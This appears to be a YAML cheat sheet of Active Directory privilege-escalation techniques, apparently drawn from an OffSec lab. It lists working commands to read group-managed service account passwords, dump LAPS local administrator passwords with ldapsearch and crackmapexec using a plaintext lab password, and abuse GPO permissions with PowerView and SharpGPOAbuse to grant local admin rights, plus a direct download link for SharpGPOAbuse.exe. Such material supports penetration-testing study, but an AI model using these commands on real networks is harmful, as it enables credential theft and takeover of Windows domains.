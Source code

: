 ```yaml
---
functions:
  privilege-escalation:
    - description: Extract a stored Service Account Password
      code: |
        Import-Module ActiveDirectory
        Get-ADServiceAccount -Filter * [-Properties *]
        $gmsa = Get-ADServiceAccount -Identity 'svc_apache$' -Properties 'msDS-ManagedPassword'
        $mp = $gmsa.'msDS-ManagedPassword'
        Can you Read $mp?
        ./GMSAPasswordReader.exe --accountname svc_apache  #rc4_hmac --> nthash

    - description: Extract Account Passwords from Local Administrator Password Solution (LAPS)
      code: |
        wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /V "Windows"
        --> Local Administrator Password Solution                  Microsoft Corporation  6.2.0.0
        
        ldapsearch -v -x -D fmcsorley@HUTCH.OFFSEC -w CrabSharkJellyfish192 -b "DC=hutch,DC=offsec" -h 192.168.165.122 "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd
        crackmapexec ldap 192.168.165.122 -u fmcsorley -p CrabSharkJellyfish192 –kdcHost 192.168.165.122 -M laps

        Import-Module ActiveDirectory
        Get-ADComputer -filter {ms-mcs-admpwdexpirationtime -like '*'} -prop 'ms-mcs-admpwd','ms-mcs-admpwdexpirationtime'

    - description: Abuse GPO permissions
      code: |
        . ./PowerView.ps1
        $n=get-netgpo;$n.name | ForEach { Write-Host "$_"; Get-GPPermission -Guid $_ -all }     #find username
        $n=get-gpo -all;$n.Id | ForEach { Write-Host "$_"; Get-GPPermission -Guid $_ -all }     #find username
            --> 31b2f340-016d-11d2-945f-00c04fb984f9 --> username and edit perms

        get-gpo -guid 31b2f340-016d-11d2-945f-00c04fb984f9
        ./SharpGPOAbuse.exe --AddLocalAdmin --UserAccount anirudh --GPOName "Default Domain Policy"


resources : |
    https://adsecurity.org/?p=3658
    https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.0_x64/SharpGPOAbuse.exe
---
```


